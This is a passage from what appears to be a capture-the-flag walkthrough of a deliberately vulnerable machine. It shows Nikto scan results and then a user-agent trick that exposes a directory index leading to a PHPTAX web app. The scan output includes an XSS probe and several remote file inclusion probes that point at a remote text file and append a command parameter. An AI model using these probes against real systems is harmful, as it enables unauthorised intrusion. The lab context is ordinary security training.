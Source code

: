 ```
+ OSVDB-3268: /?D=A: Directory indexing found.
+ OSVDB-3268: /?N=D: Directory indexing found.
+ OSVDB-3268: /?S=A: Directory indexing found.
+ OSVDB-3268: /?M=A: Directory indexing found.
+ OSVDB-3268: /?\"><script>alert('Vulnerable');</script>: Directory indexing found.
+ OSVDB-3268: /?_CONFIG[files][functions_page]=http://cirt.net/rfiinc.txt?: Directory indexing found.
+ OSVDB-3268: /?npage=-1&content_dir=http://cirt.net/rfiinc.txt?&cmd=ls: Directory indexing found.
+ OSVDB-3268: /?npage=1&content_dir=http://cirt.net/rfiinc.txt?&cmd=ls: Directory indexing found.
+ OSVDB-3268: /?show=http://cirt.net/rfiinc.txt??: Directory indexing found.
+ OSVDB-3268: /?-s: Directory indexing found.
+ OSVDB-3268: /?q[]=x: Directory indexing found.
+ 7356 requests: 0 error(s) and 44 item(s) reported on remote host
+ End Time:           2014-04-08 10:54:50 (GMT-4) (60 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Back on Iceweasel, I used the User Agent Switcher Add-On and set the user agent to Internet Explorer 6, refreshed the webpage, and a directory index was returned:

->![](/images/2014-04-08/02.png)<-

Following through this link loaded the PHPTAX webapp (thanks for the tax season reminder loneferret):
